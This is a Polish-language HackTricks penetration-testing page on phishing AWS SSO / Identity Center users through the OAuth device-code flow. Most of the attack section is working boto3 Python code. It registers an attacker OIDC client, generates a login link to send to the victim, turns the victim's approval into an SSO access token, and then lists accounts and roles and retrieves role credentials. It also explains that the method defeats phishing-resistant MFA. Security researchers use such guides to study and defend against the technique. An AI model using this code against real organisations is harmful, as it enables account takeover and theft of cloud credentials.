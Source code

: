 # AWS - Centrum tożsamości i jednolite logowanie (SSO) - Nieuwierzytelnione wyliczanie

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Kup [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**Grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## Phishing kodu urządzenia AWS

Początkowo zaproponowane w [**tym wpisie na blogu**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/), jest możliwe wysłanie **linku** do użytkownika korzystającego z AWS SSO, który jeśli **użytkownik zaakceptuje**, atakujący będzie mógł uzyskać **token do podszywania się pod użytkownika** i uzyskać dostęp do wszystkich ról, do których użytkownik ma dostęp w **Centrum tożsamości**.

Aby przeprowadzić ten atak, wymagane są:

* Ofiara musi korzystać z **Centrum tożsamości**
* Atakujący musi znać **poddomenę** używaną przez ofiarę `<victimsub>.awsapps.com/start`

Tylko z tymi informacjami **atakujący będzie w stanie wysłać link do użytkownika**, który jeśli **zaakceptowany**, umożliwi **atakującemu dostęp do konta użytkownika AWS**.

### Atak

1. **Znalezienie poddomeny**

Pierwszym krokiem atakującego jest ustalenie poddomeny, którą firma ofiary używa w swoim Centrum tożsamości. Można to zrobić za pomocą **OSINT** lub **zgadywania + BF**, ponieważ większość firm będzie używać swojej nazwy lub jej wariacji tutaj.

Dzięki tym informacjom możliwe jest uzyskanie regionu, w którym zostało skonfigurowane Centrum tożsamości:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **Wygeneruj link dla ofiary i wyślij go**

Uruchom poniższy kod, aby wygenerować link logowania AWS SSO, dzięki któremu ofiara będzie mogła się uwierzytelnić.\
W przypadku demonstracji uruchom ten kod w konsoli Pythona i nie zamykaj jej, ponieważ później będziesz potrzebować pewnych obiektów do uzyskania tokena:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
3. **Poczekaj, aż ofiara zaakceptuje**

Jeśli ofiara **już jest zalogowana w AWS**, wystarczy, że zaakceptuje udzielenie uprawnień, jeśli nie, będzie musiała **zalogować się, a następnie zaakceptować udzielenie uprawnień**.\
Tak teraz wygląda okno dialogowe:

<figure><img src="../../../.gitbook/assets/image (154).png" alt="" width="311"><figcaption></figcaption></figure>

4. **Uzyskaj token dostępu SSO**

Jeśli ofiara zaakceptowała okno dialogowe, uruchom ten kod, aby **wygenerować token dostępu SSO podając się za użytkownika**:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
Token SSO jest **ważny przez 8 godzin**.

5. **Podszyj się pod użytkownika**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### Phishing niemożliwego do wyłudzenia MFA

To zabawne, że poprzedni atak **działa nawet jeśli używane jest "niemożliwe do wyłudzenia MFA" (webAuth)**. Dzieje się tak, ponieważ poprzedni **przepływ pracy nigdy nie opuszcza używanej domeny OAuth**. W przeciwieństwie do innych ataków phishingowych, gdzie użytkownik musi podmienić domenę logowania, w przypadku przepływu kodu urządzenia przygotowany jest tak, że **kod jest znany przez urządzenie**, a użytkownik może zalogować się nawet na innym urządzeniu. Jeśli zaakceptowany zostanie monit, urządzenie, znając **początkowy kod**, będzie w stanie **odzyskać dane uwierzytelniające** dla użytkownika.

Aby uzyskać więcej informacji, [**sprawdź ten post**](https://mjg59.dreamwidth.org/62175.html).

### Automatyczne narzędzia

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## Referencje

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

<details>

<summary><strong>Naucz się hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
